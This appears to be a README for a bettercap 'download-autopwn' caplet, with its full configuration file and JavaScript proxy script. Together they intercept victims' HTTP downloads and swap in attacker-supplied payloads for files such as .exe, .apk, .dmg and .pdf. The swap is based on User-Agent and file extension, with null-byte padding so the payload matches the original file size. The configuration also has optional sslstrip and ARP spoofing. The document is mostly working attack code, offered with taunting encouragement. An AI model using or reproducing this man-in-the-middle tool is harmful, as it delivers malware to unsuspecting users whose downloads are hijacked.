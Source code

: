 <p align="center"><img height="142px" src="https://cdn.rawgit.com/yungtravla/cdn/a5ec3cd7/github.com/bettercap/caplets/download-autopwn/dap.svg" /></p>


### caplets/download-autopwn.cap

Everything is configurable in the **download-autopwn.cap** file.

```sh
# documentation can be found at https://github.com/bettercap/caplets/blob/master/download-autopwn/README.md
# 
# this module lets you intercept very specific download requests and replaces the payload with one of your choice
#
# in order for a download to get intercepted:
#    1. the victim's user-agent string must match the downloadautopwn.useragent.x regexp value
#    2. the requested file must match one of the downloadautopwn.extensions.x file extensions
#
# you can find the downloadautopwn.devices in the caplets/download-autopwn/ folder (you can add your own)
#

# choose the devices from which downloads get pwned (enter the dir names of choice from caplets/download-autopwn/)
# (or feel free to add your own)
set downloadautopwn.devices android,ios,linux,macos,ps4,windows,xbox

# choose the regexp value that the victim's User-Agent has to match
# (feel free to add your own)
set downloadautopwn.useragent.android  Android
set downloadautopwn.useragent.ios      iPad|iPhone|iPod
set downloadautopwn.useragent.linux    Linux
set downloadautopwn.useragent.macos    Intel Mac OS X 10_
set downloadautopwn.useragent.ps4      PlayStation 4
set downloadautopwn.useragent.windows  Windows|WOW64
set downloadautopwn.useragent.xbox     Xbox

# choose which file extensions get intercepted and replaced by your payload on specific devices (payloads are in caplets/download-autopwn/.../)
# (again, you can add as many as you want)
# make sure the payload files exist and that they are all named "payload" (for example: payload.exe)
set downloadautopwn.extensions.android  apk,pdf,sh,pfx,zip
set downloadautopwn.extensions.ios      ipa,ios,ipb,ipsw,ipsx,ipcc,mobileconfig,pdf,zip
set downloadautopwn.extensions.linux    c,go,sh,py,rb,cr,pl,deb,pdf,jar,zip
set downloadautopwn.extensions.macos    app,dmg,doc,docx,jar,ai,ait,psd,pdf,c,go,sh,py,rb,pl,terminal,zip
set downloadautopwn.extensions.ps4      disc,pup,pdf,doc,docx,zip
set downloadautopwn.extensions.windows  exe,msi,bat,jar,dll,doc,docx,swf,psd,ai,ait,pdf,rar,zip
set downloadautopwn.extensions.xbox     exe,msi,jar,pdf,doc,docx,zip

# choose whether the proxy module resizes your payload to the requested file's size (if not set then default=false)
set downloadautopwn.resizepayloads true

# set download-autopwn.js as proxy script
set http.proxy.script caplets/download-autopwn.js
# uncomment if you want sslstrip enabled
# set http.proxy.sslstrip true
# start proxy
http.proxy on

# wait for everything to start properly
sleep 1

# uncomment if you want arp spoofing (make sure probing is off as it conflicts with arp spoofing)
# arp.spoof on
```

<br>

The `downloadautopwn.devices` variable accepts comma separated values. 
<br>
These values are the folder names inside the **caplets/download-autopwn/** directory.

<br>

The `downloadautopwn.useragent.x` variables accept a regular expression value (where `x` is the device name).
<br>
The victim's User-Agent string has to match this regex value.

<br>

The `downloadautopwn.extensions.x` variables accept comma separated file extensions that are present in the device's folder (where `x` is the device name).
<br>
These files must be present in the device's folder, and they must be called `payload` (for example: `payload.exe`).

<br>

The `downloadautopwn.resizepayloads` variable accepts a boolean value (default=false).
<br>
If this value is set to true, your payloads will be resized to match the requested file's size (unless your payload is bigger or equal to the requested file's size).

<br>

### caplets/download-autopwn.js

No changes should have to be made in the **download-autopwn.js** file.

```javascript
var targets = {}

var nullbyte = "\u0000"

var green   = "\033[32m",
    boldRed = "\033[1;31m",
    onRed   = "\033[41m",
    reset   = "\033[0m",
    redLine = "\n  " + onRed + " " + reset

function onLoad() {
	devices = env("downloadautopwn.devices").split(",")
	logStr = ""
	for (var i = 0; i < devices.length; i++) {
		item = {
			"device": devices[i],
			"useragent": env("downloadautopwn.useragent." + devices[i]),
			"extensions": env("downloadautopwn.extensions." + devices[i]).toLowerCase().split(",")
		}
		targets[i] = item
		logStr += "\n  " + green + targets[i]["device"] + reset +
		          "\n    User-Agent: " + targets[i]["useragent"] + 
		          "\n    Extensions: " + targets[i]["extensions"] + "\n"
	}
	log("Download Autopwn loaded.\n\nDownload Autopwn targets: \n" + logStr)
}

function onResponse(req, res) {
	// First of all check whether the requested path might have an extension (to save cpu)
	var requestedFileName = req.Path.replace(/.*\//g, "")
	if ( requestedFileName.indexOf(".") != -1 ) {
		var userAgent = req.GetHeader("User-Agent", ""),
		    extension,
		    headerCount = req.Headers.length
		// Iterate through targets
		for ( var t = 0; t < Object.keys(targets).length; t++ ) {
			// Check if User-Agent is a target
			regex = new RegExp(targets[t]["useragent"])
			if ( userAgent.match(regex) ) {
				// Iterate through target extensions
				for (var e = 0; e < targets[t]["extensions"].length; e++) {
					// Check if requested path contains a targeted extension
					// function endsWith() could be a nice simplification here
					if ( requestedFileName.replace(/.*\./g, "").toLowerCase() == targets[t]["extensions"][e] ) {
						extension = targets[t]["extensions"][e]
						// Autopwn
						logStr = "\n" + redLine + "  Autopwning download request from " + boldRed + req.Client.IP + reset + 
						         redLine + 
						         redLine + "  Found " + boldRed + extension.toUpperCase() + reset + " extension in " + boldRed + req.Hostname + req.Path + reset + 
						         redLine + 
						         redLine + "  Grabbing " + boldRed + targets[t]["device"].toUpperCase() + reset + " payload..."
						// Check requested file size
						requestedFile = res.ReadBody()
						requestedFileSize = requestedFile.length
						payload = readFile("/usr/share/bettercap/caplets/download-autopwn/" + targets[t]["device"] + "/payload." + extension)
						payloadSize = payload.length
						logStr += redLine + "  The size of the requested file is " + boldRed + requestedFileSize + reset + " bytes" + 
						          redLine + "  The raw size of your payload is " + boldRed + payloadSize + reset + " bytes" + redLine
						// Append nullbytes to payload if resizing is enabled and if requested file is larger than payload
						if ( env("downloadautopwn.resizepayloads") == "true" && requestedFileSize > payloadSize ) {
							logStr += redLine + "  Resizing your payload to " + boldRed + requestedFileSize + reset + " bytes..."
							sizeDifference = requestedFileSize - payloadSize
							nullbyteString = Array(sizeDifference + 1).join(nullbyte)
							payload += nullbyteString
						}
						// Set Content-Disposition header to enforce file download instead of in-browser preview
						res.SetHeader("Content-Disposition", "attachment; filename=\"" + requestedFileName + "\"")
						// Update Content-Length header in case our payload is larger than the requested file
						res.SetHeader("Content-Length", payload.length)
						logStr += redLine + "  Serving your payload to " + boldRed + req.Client.IP + reset + "...\n"
						log(logStr)
						res.Body = payload
					}
				}
			}
		}
	}
}
```

<br>

### Now you're all set to pwn!

#### What it looks like when you have configured a crazy amount of payloads

![screenshot 1](https://user-images.githubusercontent.com/29265684/37411166-e3796c46-27ed-11e8-94da-8e1c226a0dd3.png)

#### What it looks like when you pwn someone's download >:-)

![screenshot 2](https://user-images.githubusercontent.com/29265684/37409382-f6bb143e-27e9-11e8-86c5-c1c556900556.png)

Have fun!
